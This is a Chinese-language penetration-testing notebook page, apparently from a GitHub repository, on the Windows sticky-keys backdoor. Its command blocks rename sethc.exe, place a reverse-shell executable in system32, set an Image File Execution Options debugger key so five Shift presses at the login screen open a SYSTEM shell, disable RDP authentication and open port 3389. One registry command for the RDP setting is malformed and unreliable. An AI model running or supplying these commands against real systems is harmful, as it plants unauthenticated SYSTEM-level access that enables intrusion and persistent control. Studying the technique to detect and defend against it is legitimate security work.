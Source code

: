 ```yaml
---
title: 粘滞键后门
categories:
- windows
tags:
- windows
---
```


## 参考资料
- [https://blog.compass-security.com/2018/02/no-need-to-break-in-use-the-backdoor/](https://blog.compass-security.com/2018/02/no-need-to-break-in-use-the-backdoor/)
- [https://mochazz.github.io/2017/07/29/shift/#%E5%81%B7%E5%A4%A9%E6%8D%A2%E6%97%A5](https://mochazz.github.io/2017/07/29/shift/#%E5%81%B7%E5%A4%A9%E6%8D%A2%E6%97%A5)
- [2020年5月11日，确定该方法有效。粘滞键后门详述](https://blog.csdn.net/fageweiketang/article/details/88317656)

## 失败的操作
```
cd c:\windows\system32
move sethc.exe sethc.exe.bak			#重命名sethc.exe为sethc.exe.bak
copy /y cmd.exe sethc.exe
全都提示拒绝访问
本地管理员权限不行、system权限也不行。
```
## 成功的操作
```
move C:\Users\user\Desktop\p.exe C:\windows\system32\p.exe   #将p.exe移动到另一个地址，p.exe是一个反弹shell的exe.

#需要本地管理员权限
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

#在登陆面板输入5个shift，即可获得反弹的system权限shell
缺点，在登陆以后，就会丢失反弹连接。
```
使用场景：在3389远程登陆的时候，无需登陆，调出system权限cmd.exe

## 实验
```
在受害机器设置user authentication，不需要验证。那么其他机器登入的时候，就会无需验证获得登陆面板。
PS C:\Users\Administrator> REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDtyLayer /t REG_DWORD /d 0

---
受害机器替换cmd.exe，在登陆面板5个shift调出cmd.exe
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

---
管理员权限命令开启3389远程登陆
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f

windows 10 无效
windows 2008 R2 有效
```

